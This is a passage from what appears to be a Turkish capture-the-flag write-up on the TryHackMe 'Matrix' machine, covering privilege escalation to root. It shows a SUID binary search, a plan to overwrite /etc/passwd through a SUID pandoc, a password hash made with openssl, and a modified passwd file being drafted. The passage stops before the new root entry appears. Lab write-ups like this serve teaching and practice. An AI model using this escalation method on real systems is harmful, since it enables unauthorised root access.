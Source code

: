 ### Root Flag

`find / -perm -4000 2>/dev/null` komutu ile SUID dosyası aradım.

````console
architect@matrixV99:~$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pandoc
/usr/local/bin/sudo
/bin/mount
/bin/ping
/bin/fusermount
/bin/su
/bin/umount
````

pandoc dosyası ile yetkimizi yükseltebiliriz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Matrix/images/32.png?raw=true)

/etc/passwd dosyasını geçersiz kılabilir ve /etc/passwd'ye yeni bir root kullanıcısı ekleyebiliriz.


Oluşturacağım kullanıcının şifresini belirledim.

````console
┌──(root㉿kali)-[~]
└─# openssl passwd retro   
$1$J74RJRfo$abfoN4hXndNyoRBcNfpV/0
````

Yeni bir etc/passwd dosyası oluşturdum.

````console
architect@matrixV99:~$ nano /tmp/passwd_mod
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
````